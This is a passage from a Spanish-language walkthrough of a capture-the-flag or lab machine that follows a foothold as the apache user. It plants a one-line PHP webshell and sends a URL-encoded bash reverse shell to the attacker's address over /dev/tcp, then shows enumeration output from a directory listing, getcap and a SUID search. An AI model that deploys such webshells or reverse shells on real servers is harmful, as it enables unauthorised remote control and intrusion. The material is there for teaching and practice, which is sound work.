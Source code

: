 Como podemos ver estamos en la máquina víctima y somos el usuario apache.

Para simplificar el acceso futuro a la máquina nos hacemos una webshell con php:

```php
<?php system($_GET['cmd']); ?>
```

y guardamos como cmd.php
Para entablar la shell simplemente añadimos como parámetro a la url la misma linea de antes urlencodeada.

http://datasafe.votenow.local/cmd.php?cmd=bash%20-c%20%22/bin/bash%20-i%20%26%3e%20/dev/tcp/192.168.1.80/443%200%3e%261%22

-------------------------------------------------------------------------------

vamos al directorio home y vemos que solo hay un directorio: admin

```bash
bash-4.2$ cd /home
bash-4.2$ ls -la
total 0
drwxr-xr-x.  3 root  root   19 Jun 27  2020 .
dr-xr-xr-x. 17 root  root  244 Jun 27  2020 ..
drwx------.  2 admin admin 116 Jun 28  2020 admin
bash-4.2$ cd admin
bash: cd: admin: Permission denied
bash-4.2$ 
```

-------------------------------------------------------------------------------

Miramos qué podemos ejecutar como usuarios privilegiados, pero el comando *su* requiere contraseña para el usuario apache.
También miramos qué ficheros se ejecutarán con privilegios elevados con find / -perm /4000, y posibles archivos con capabilities.

```bash
> getcap -r / 2>/dev/null
```

```bash
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/bin/tarS = cap_dac_read_search+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
bash-4.2$ 
```

Tras mucho mirar vemos que no hay nada con lo que podamos subir de apache a admin o root.

-------------------------------------------------------------------------------

Si recordamos, en la base de datos habíamos conseguido acceder a los datos de un usuario que era admin y un hash.
